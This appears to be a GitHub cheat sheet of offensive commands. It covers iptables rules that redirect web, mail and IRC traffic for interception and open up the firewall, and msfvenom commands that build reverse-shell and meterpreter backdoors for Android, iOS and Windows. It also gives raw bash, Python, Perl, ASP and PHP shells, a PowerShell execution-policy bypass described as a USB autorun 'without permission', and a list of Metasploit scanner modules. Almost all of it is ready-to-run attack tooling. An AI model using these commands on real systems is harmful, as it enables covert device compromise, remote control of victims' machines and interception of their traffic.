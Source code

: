 # <img width="55" src="http://0z3r00t3r.6te.net/img/ip.png"> IP Forward  
#### &#x1F538; to open ip forward in linux&#x1F427; terminal type :
      
      sudo echo 1 > /proc/sys/net/ipv4/ip_forward
      sysctl -w net.ipv4.ip_forward=1
      #See a list of network devices and their state: 
      -  nmcli dev
      #Add a rule to intercept [http,https,imaps,pop3s,irc]
      - sudo iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-ports <PORT/8080>
      - sudo iptables -t nat -A PREROUTING -p tcp --destination-port 443 -j REDIRECT --to-ports <PORT/8080>
      - sudo iptables -t nat -A PREROUTING -p tcp --destination-port 993 -j REDIRECT --to-ports <PORT/8080>
      - sudo iptables -t nat -A PREROUTING -p tcp --destination-port 995 -j REDIRECT --to-ports <PORT/8080>
      - sudo iptables -t nat -A PREROUTING -p tcp --destination-port 6697 -j REDIRECT --to-ports <PORT/8080>

      sudo iptables -t nat -A PREROUTING -i <DEVICE> -p tcp --dport 80 -j REDIRECT --to-port <PORT/8080>
      sudo iptables -t nat -A PREROUTING -i <DEVICE> -p tcp --dport 443 -j REDIRECT --to-port <PORT/8080>
      sudo iptables -t nat -A PREROUTING -i <DEVICE> -p tcp --dport 993 -j REDIRECT --to-port <PORT/8080>
      sudo iptables -t nat -A PREROUTING -i <DEVICE> -p tcp --dport 995 -j REDIRECT --to-port <PORT/8080>
      sudo iptables -t nat -A PREROUTING -i <DEVICE> -p tcp --dport 6697 -j REDIRECT --to-port <PORT/8080>

      sudo iptables -t nat -A OUTPUT -o <DEVICE> -p tcp --dport 80 -j REDIRECT --to-port <PORT/8080>
      sudo iptables -t nat -A OUTPUT -o <DEVICE> -p tcp --dport 443 -j REDIRECT --to-port <PORT/8080>
      sudo iptables -t nat -A OUTPUT -o <DEVICE> -p tcp --dport 993 -j REDIRECT --to-port <PORT/8080>
      sudo iptables -t nat -A OUTPUT -o <DEVICE> -p tcp --dport 995 -j REDIRECT --to-port <PORT/8080>
      sudo iptables -t nat -A OUTPUT -o <DEVICE> -p tcp --dport 6697 -j REDIRECT --to-port <PORT/8080>

      sudo iptables -P INPUT ACCEPT
      sudo iptables -P OUTPUT ACCEPT
      sudo iptables -P FORWARD ACCEPT
      sudo iptables -F INPUT
      sudo iptables -F OUTPUT
      sudo iptables -F FORWARD
      sudo iptables-save
   
# <img width="55" src="http://0z3r00t3r.6te.net/img/msf.png"> MSF Venom Backdoor
#### &#x1F538; APK::Generation 

   `msfvenom --payload="android/shell/reverse_tcp" --arch="dalvik" --platform="android" --encode="cmd/powershell_base64" LHOST=ip LPORT=port -k -o 1x.apk`

   `msfvenom --payload="android/shell/reverse_tcp" --arch="dalvik" --platform="android" --encode="cmd/echo" LHOST=ip LPORT=port -k -o 2x.apk`

   <i>on android target</i> : ```run the 1x.apk / or 2x.apk```

#### &#x1F538; IPA(iphone)::Generation

   `msfvenom --payload="apple_ios/armle/meterpreter_reverse_tcp" --platform="apple_ios" --arch="armle" LHOST=ip LPORT=port -f macho -o 1x.ipa`

   `msfvenom --payload="apple_ios/aarch64/shell_reverse_tcp" --platform="apple_ios" --arch="aarch64" LHOST=ip LPORT=4444 -o shell`

   <i>on iphone ssh run</i> `./shell`


#### &#x1F538; PS1(windows)::Generation

   `msfvenom --payload="windows/meterpreter/reverse_http" --format="psh" --platform="windows" --arch="x86" --encoder="cmd/powershell_base64" --encrypt="base64" LHOST=ip LPORT=port -o x86.ps1`

   `msfvenom --payload="windows/meterpreter/reverse_tcp" --platform="windows" --arch="x86" --encoder="x86/shikata_ga_nai" -x cmd.exe -i 14 LHOST=ip LPORT=port -f exe -o bad_cmd.exe`

#### &#x1F538; Auto run without permisstion: use it with USB

   `c:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe -ExecutionPolicy Bypass -NoExit -File x86.ps1`

#### &#x1F538; MSFvenom Other : 
      msfvenom -p cmd/unix/reverse_python LHOST=<IP> LPORT=<PORT> -f raw > shell.py
      msfvenom -p cmd/unix/reverse_bash LHOST=<IP> LPORT=<PORTn> -f raw > shell.sh
      msfvenom -p cmd/unix/reverse_perl LHOST=<IP> LPORT=<PORT> -f raw > shell.pl
      msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f asp > shell.asp
      
      #1: msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.php
      #2: cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php


# &#x1F538; MSF Aux / Set : 

      use auxiliary/scanner/http/http_version
      use auxiliary/scanner/http/options
      use auxiliary/scanner/http/ssl
      use auxiliary/scanner/http/webdav_scanner
      use auxiliary/scanner/http/host_header_injection
      use auxiliary/scanner/ssl/openssl_heartbleed
      use auxiliary/scanner/portscan/syn
      use auxiliary/scanner/smb/smb_version
      use auxiliary/scanner/mssql/mssql_ping
      #enum_wayback ALL LINKS 
      use auxiliary/scanner/http/enum_wayback   
      #dir_listing
      use auxiliary/scanner/http/dir_listing
      #dir_scanner
      use auxiliary/scanner/http/dir_scanner
      #dir_webdav_unicode_bypass
      use auxiliary/scanner/http/dir_webdav_unicode_bypass
      #files_dir
      use auxiliary/scanner/http/files_dir

#### &#x1F538; Set Options : 
      set Proxies socks5:127.0.0.1:9050
      set DisablePayloadHandler false
      set ExitOnSession false

